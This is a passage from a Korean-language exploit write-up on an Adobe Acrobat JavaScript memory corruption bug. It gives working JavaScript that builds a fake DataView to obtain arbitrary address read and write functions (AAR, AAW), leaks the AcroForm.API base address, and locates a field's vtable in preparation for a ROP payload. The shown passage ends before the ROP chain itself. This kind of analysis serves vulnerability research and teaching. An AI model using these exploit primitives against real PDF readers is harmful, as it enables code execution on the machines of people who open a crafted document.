 `poi`함수에서는 `corruptedTypedArr`에 구성된 Fake String의 문자열 데이터를 가리키는 포인터를 데이터를 읽을 주소로 바꿉니다. 이후 `modifiedArr[1]`에 접근하면 Fake String이 반환되고 변조된 주소에 위치한 문자열을 `s2h`함수를 통해 숫자로 변환합니다.

## 4. Arbitrary Address Read/Write Primitive

위에서 구현된 `addrOf`, `poi`로 Fake `DataView`를 구성하고 이를 통해 임의 주소 읽기/쓰기를 위한 `AAR`, `AAW` 함수를 구현할 수 있습니다.

```jsx
var targetDV = new DataView(new ArrayBuffer(0x64));
targetDV.setUint32(0, 0x55555555, true);
const FAKE_DV_START = 0x60;
//....

var targetDVPtr = addrOf(targetDV);
console.println("[+] target dataview address: " + targetDVPtr.toString(16));

for (var k = 0; k < 32; k++) {
    corruptedTypedArr[FAKE_DV_START + k] = poi(targetDVPtr + k * 4);
}

function AAR(addr) {
    corruptedTypedArr[FAKE_DV_START + 20] = addr;
    return modifiedArr[2].getUint32(0, true);
}

function AAW(addr, value) {
    corruptedTypedArr[FAKE_DV_START + 20] = addr;
    modifiedArr[2].setUint32(0, value, true);
}
```

Fake `DataView`를 구성하기 위해 먼저 `addrOf`로 원본 `DataView`인 `targetDV`의 주소(`targetDVptr`)을 알아냅니다. 이후 원본의 데이터를 `poi`로 읽어 `corruptedTypedArr[FAKE_DV_START]`에 복제하여 Fake `DataView`를 사용할 때 의도치 않은 동작이 발생하지 않게 합니다.

`AAR`, `AAW` 함수에서는 `corruptedTypedArr[FAKE_DV_START + 20]`에 위치한 `DataView`의 `ArrayBuffer` 포인터를 읽거나 쓸 주소로 변조합니다. 최종적으로 `modifiedArr[2]`로 Fake `DataView`에 접근하여 `setUint32`나 `getUint32` 메소드를 호출하면 임의의 주소에서 4바이트의 데이터를 읽거나 쓰는 것이 가능해집니다.

## 5. Insert ROP Payload

`addrOf`, `AAR`, `AAW` 함수를 사용하여 베이스 주소 등 필요한 데이터를 유출하고 ROP 페이로드를 작성하고 vtable을 변조하여 삽입한 페이로드가 실행되도록 만듭니다.

### Leak AcroForm Base Address

먼저 ROP 가젯들의 주소를 계산하기 위해 `AAR`함수로 `textField`인 `f0`로부터 `AcroForm.API`의 베이스 주소를 유출합니다. 이후 변조할 `field`의 vtable의 주소를 알아내고 Fake `DataView`를 구성할 때와 마찬가지로 vtable의 데이터를 읽어 `corruptedTypedArr`이 위치한 0x20000158(`arrBufPtr + 0x100`)에 복제합니다.

```jsx
const arrBufPtr = 0x20000048 + 0x10;
var AcroFormApiBase =
    AAR(AAR(addrOf(f0) + 0x10) + 0x34) - VersionData[curAppVersion]["AcroFormOffset"];
console.println("[+] AcroForm base leaked: " + AcroFormApiBase.toString(16));

var fieldVtblAddr = AAR(AAR(AAR(AAR(addrOf(f0) + 0x10) + 0x10) + 0xc) + 4);
var fieldVtbl = AAR(fieldVtblAddr);

console.println(
    "[+] field vTable Addr: " +
        fieldVtblAddr.toString(16) +
        " | fieldVtable: " +
        fieldVtbl.toString(16)
);
````